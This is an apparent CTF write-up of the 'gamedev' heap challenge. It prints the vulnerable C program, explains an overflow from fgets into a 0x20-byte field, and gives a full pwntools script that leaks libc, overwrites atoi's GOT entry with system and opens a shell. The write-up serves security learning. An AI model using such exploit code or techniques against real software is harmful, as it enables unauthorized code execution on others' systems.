



# A writeup on gamedev, the first heap chall in the ctf

This will be a somewhat-extensive look into the first heap
challenge introduced in this ctf. Heap challenges involve exploiting dynamic memory, and are often more complex in real environments. In this challenge, we explore one of the basics of heap exploitation, where the primary goal is to overflow an allocated structure to overwrite components that will get us the shell and flag!

Prerequisites
-------------
One should understand the basics of exploitation with buffer and heap overflows. There are many great resources for the basics of heap exploitation on Linux, but here are some quick references to get you started. 

[https://tc.gts3.org/cs6265/2019/tut/tut09-01-heap.html](https://tc.gts3.org/cs6265/2019/tut/tut09-01-heap.html)

One should also understand the global offset table (GOT/PLT) for elf binaries (linux). Here are some more links for that as well.

[https://ctf101.org/binary-exploitation/what-is-the-got/](https://ctf101.org/binary-exploitation/what-is-the-got/)

[https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)


Heap allocation slightly differs on other OS's like windows and I do not want to pretend I know anything about that ; ) . Matter of fact, I have not done anything with heap in a while, so this will be a good refresher for me as well.

Many CTF organizers derive a similar structure when creating a simple heap overflow chall. The structure comprises of 
1) creating `malloc`ed objects
2) populating these objects
3) inspecting them / printing their data
4) performing a miscellaneous action etc

The following code demonstrates this structure
```c
#include <stdio.h>
#include <stdlib.h>

struct Level *start = NULL;
struct Level *prev = NULL;
struct Level *curr = NULL;

struct Level
{
    struct Level *next[8];
    char data[0x20];
};

int get_num()
{
    char buf[0x10];
    fgets(buf, 0x10, stdin);
    return atoi(buf);
}

void create_level()
{
    if (prev == curr) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }

    printf("Enter level index: ");
    int idx = get_num();

    if (idx < 0 || idx > 7) {
        puts("Invalid index.");
        return;
    }
    
    struct Level *level = malloc(sizeof(struct Level));
    if (level == NULL) {
        puts("Failed to allocate level.");
        return;
    }

    level->data[0] = '\0';
    for (int i = 0; i < 8; i++)
        level->next[i] = NULL;

    prev = level;

    if (start == NULL)
        start = level;
    else
        curr->next[idx] = level;
}

void edit_level()
{
    if (start == NULL || curr == NULL) {
        puts("No level to edit.");
        return;
    }

    if (curr == prev || curr == start) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }
    
    printf("Enter level data: ");
    fgets(curr->data, 0x40, stdin);
}

void test_level()
{
    if (start == NULL || curr == NULL) {
        puts("No level to test.");
        return;
    }

    if (curr == prev || curr == start) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }
    
    printf("Level data: ");
    write(1, curr->data, sizeof(curr->data));
    putchar('\n');
}

void explore()
{
    printf("Enter level index: ");
    int idx = get_num();

    if (idx < 0 || idx > 7) {
        puts("Invalid index.");
        return;
    }

    if (curr == NULL) {
        puts("No level to explore.");
        return;
    }
    
    curr = curr->next[idx];
}

void reset()
{
    curr = start;
}

void menu()
{
    puts("==================");
    puts("1. Create level");
    puts("2. Edit level");
    puts("3. Test level");
    puts("4. Explore");
    puts("5. Reset");
    puts("6. Exit");

    int choice;
    printf("Choice: ");
    choice = get_num();

    if (choice < 1 || choice > 6)
        return;
    
    switch (choice)
    {
        case 1:
            create_level();
            break;
        case 2:
            edit_level();
            break;
        case 3:
            test_level();
            break;
        case 4:
            explore();
            break;
        case 5:
            reset();
            break;
        case 6:
            exit(0);
    }
}

void init()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    // Add starting level
    start = malloc(sizeof(struct Level));
    start->data[0] = '\0';
    for (int i = 0; i < 8; i++)
        start->next[i] = NULL;
    curr = start;
}

int main()
{
    init();
    puts("Welcome to the heap-like game engine!");
    printf("A welcome gift: %p\n", main);
    while (1)
        menu();
    return 0;
}
```

I will not cover how I *found* the bug ( should be discussed in another blog ), but given the context of this being a heap overflow problem, it is easy to spot.

If we look at the `Level` structure for this program, we can see the `data` holds *0x20* bytes, while the `edit_level` function allows the user to change and overflow that data with a length to 0x40 bytes.

```c
struct Level
{
    struct Level *next[8];
    char data[0x20];
};
```

```c
void edit_level()
{
    ... 
    ...

    printf("Enter level data: ");
    fgets(curr->data, 0x40, stdin);
}


```
## Pieces to note 

The heap grows upwards to higher addresses (good 2 know for what 2 overflow). 

This chall lets us dereference an address (representing a level) from a list maintained by another level, to continue adding levels. 

There's a check to prevent us from repeating an action, which is more of a nuisance than a constraint. 

GOT table is partial RELRO, which means it is lazily resolved, which makes us happy
The `atoi` function is a perfect candidate to overwrite, because of its interesting buffer space and arg passing during `get_num()` (which is called after every unique choice for the menu)

```
int get_num()
{
    char buf[0x10];
    fgets(buf, 0x10, stdin);
    return atoi(buf);
}
```

## Exploitation

The whole idea is to overflow the data field into another allocated heap, such that when using the "explore\_level" function, we can dereference where the GOT table is, leak the libc address space to defeat ASLR, and replace one of GOT.plt addresses to point to a "system" function, ultimately allowing us to call the shell and read out the flag. Here's how I did it, including a diagram visualizing the structures and the code to get the job done.

-- Create two levels on the first layer (root layer), to avoid the "creativity" checks

-- Explore the first allocated world and allocate two more worlds under it

-- At this second layer, explore the first world, edit it, and overflow to overwrite the second world's first index. 

-- Reset (choice 5), and explore the second world of the second layer, where we can dereference the address that was overflowed by the first world, and enter an address space controlled by us. 

The rest is a matter of padding/positioning, and knowing what address to overwrite.



Here is the exploit script I wrote for this chall to automate the process

```python
from pwn import *

def create_world(conn, num):
        conn.sendline(b'1')
        conn.sendline(str(num).encode())

def create_worlds(conn):
        for i in range(0,7):
                create_world(conn, i)

def explore(conn, num):
        conn.sendline(b'4')
        conn.sendline(str(num).encode())

def explore_deep(conn, depth):
        for k in depth:
                explore(conn, k)

# depth will be an array of worlds to get to our target, we also assume this world 
# has all 7 worlds allocated in it
def heapspray(conn, depth, payload):
        # buffer overflow starts at 48
        for i in range(0,7):
                explore_deep(conn, depth)               
                explore(conn, i)
                conn.sendline(b'2')
                conn.sendline(payload)
                conn.sendline(b'5') # go back to the original depth


context.arch = "amd64"

conn = process("./chall")
#conn = remote("chall.lac.tf", 31338) #nc chall.lac.tf 31338

e = ELF("chall")
libc = ELF("/usr/lib/libc.so.6")#input("path to libc")) # change when local or given by chall

data = conn.recvuntil(b': ')
important_data=conn.recvuntil(b'\n')
important_data = important_data[:-1]

main_address=int(important_data, 16)

print("main's address is ", hex(main_address))

e.address = main_address - e.sym["main"]

atoi_addy = e.got["atoi"]
atoi_entry_point = atoi_addy-64 # how atoi will be read and edited

create_worlds(conn) # create 7 worlds at the base to avoid that "game creativity" check

# input("debug test")
explore(conn, 0)    # enter the 0th world

create_worlds(conn) # create 7 more worlds

payload=b"A"*48+p64(atoi_entry_point)
depth=[0]

conn.sendline("5")

heapspray(conn, depth, payload)

input("heap has been spray, press any key to dance")

# should be back to the original depth
for i in range(0, 7):
        explore_deep(conn, depth)
        explore(conn, i)
        explore(conn, 0) # will reveal if we have exploited data
        
        conn.sendline(b'3')
      
        bad = conn.recvuntil(b'Level data: ', timeout=1)
               
        if bad == b'' or len(data) == 0:
                print("bad data")
                conn.sendline(b'5')
                continue
        
        data=conn.recvuntil(b"============", drop=True)
        if len(data) > 8:
                data = data[:8]
        
        if len(data) != 0 or data.find(b'AAAA') == -1:
                print("found ", data)
                libc.address = u64(data) - libc.symbols["atoi"]
                input()
                print("libc address ", hex(libc.address))
                # input("found it")
                break

        conn.sendline(b'5')

conn.sendline(b"2") #edit to syscall
conn.sendline(p64(libc.symbols["system"]))
conn.sendline("/bin/sh")

conn.interactive()

exit()

```

I was under a crunch for writing this exploit, and did not want to spend more time on the specifics that I mentionned above, so I tried to simulate a "heap spray" that relied on hitting just one of the worlds so that we can overwrite our target.

The exploit works the same way, however, simply overwriting the heap structure of another level to overwrite and replace the GOT address of `atoi` with a system address. You can also see how I am resolving and defeating ASLR by leaking the initial libc address before overwriting `atoi`. Here is what the layout of the heap would look like after we "sprayed" it down.

The first image shows the first world with its 7 worlds allocated, and the 0th level of the second layer having all its worlds allocated as well.

The second image is me trying to overflow each of those 7 worlds with my target address of `0x0624f10665ff8`



If you would like to learn more about heap, please check out how2heap on github, a link will be provided for it as well.
[https://github.com/shellphish/how2heap](https://github.com/shellphish/how2heap)
